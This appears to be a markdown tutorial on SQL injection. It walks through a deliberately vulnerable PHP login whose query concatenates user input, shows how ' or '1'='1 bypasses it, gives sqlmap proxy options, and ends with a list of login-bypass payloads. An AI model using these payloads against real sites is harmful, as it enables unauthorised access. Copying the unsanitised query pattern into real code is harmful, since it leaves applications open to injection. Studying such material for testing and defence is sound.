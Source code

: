 # SQL-injections


## How does sql-injections work?

So we have a website that is written in php. We have a login functionality, where the code looks like this:

```
<?php
	mysql_connect("localhost", "pelle", "mySecretPassowrd") or die(mysql_error());

	mysql_select_db("myHomepage");
	
	if ($_POST['uname'] != ""){
		$username = $_POST['username'];
		$password = $_POST['password'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
	}
?>
```

So the user input is not filtered or sanitized in any way. Which means that what the users puts in in the login-form will be executed my mysql. So just like in xss-injections we just try to escape the input field to be able to execute sql-commands. So if we input the following into the user-field and password-field in the login:

```
whatever' or '1'='1
whatever' or '1'='1
```

The query will look like this:
```
$query = "SELECT * FROM users WHERE username = 'whatever' OR '1'='1' AND password='whatever' OR '1'='1'";
```

Since they both become true the database will retrieve all users and we will be able to bypass the login.

If you know the username you could of course use that and then only inject on the password parameter.

```
$query = "SELECT * FROM users WHERE username = 'admin' AND password='whatever' OR '1'='1'";
```



## SQLmap

Sqlmap is a great tool to perform sqlinjections.
Here is the manual.
https://github.com/sqlmapproject/sqlmap/wiki/Usage

### Use proxy

```
--proxy="http://192.2.2.2.2:1111"
```

**Proxy credencials**
```
--proxy-cred="username:password"
```


Here is a tutorial on how to make sql-injections with post-requests.

https://hackertarget.com/sqlmap-post-request-injection/


## Login bypass



This is the most classic, standard first test:
```
' or '1'='1
```

Then you have:

```
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```




## References